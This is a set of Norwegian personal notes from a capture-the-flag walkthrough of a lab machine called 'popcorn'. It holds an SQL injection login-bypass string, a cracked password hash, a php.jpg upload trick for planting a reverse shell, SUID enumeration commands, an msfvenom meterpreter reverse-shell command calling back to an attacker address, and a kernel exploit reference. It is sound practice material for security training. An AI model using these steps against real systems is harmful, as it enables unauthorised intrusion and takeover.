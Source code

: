 # popcorn 10.10.10.6

linux

22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 **ingen exploits**

80/tcp open  http    Apache httpd 2.2.12 \(\(Ubuntu\)\) **ingen exploits**

dirb test og **torrent**

[http://10.10.10.6/torrent/login.php](http://10.10.10.6/torrent/login.php)

laste opp en torrent. prøve å finne et sted å laste opp bilde, obfuscate kode i bildet - funker ikke

`admin' or '1'='1`

`admin' or '1'='1`

adminpanel ingenting

må nok få tilgang til databse på en eller annen måte

torrent/database/ fant sql fil. inneholder hashet passord 1844156d4166d94387f1a4ad031ca5fa som blir admin12

kjører authenticated dirb

**laste opp via burp som php.jpg, endre på navn og paste inn reverse shell.**

Ubuntu 9.10 \n \l

Linux version 2.6.31-14-generic-pae

user.txt **5e36a919398ecc5d5c110f2d865cf136**

cat /root/root.txt

find / -perm -1000 -type d 2&gt;/dev/null **ingenting**

find / -perm -u=s -type f 2&gt;/dev/null **ingenting**

kanskje kernel exploit

bruke exploit suggester og teste

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
```

lage shell og laste opp så jeg får meterpreter. bra triks

så kjøre exploit suggester og se hva jeg får

bedre å se her. søke på nøyaktig versjon https://www.kernel-exploits.com/

**https://www.exploit-db.com/exploits/15704/**

cat /root/root.txt

**f122331023a9393319a0370129fd9b14**



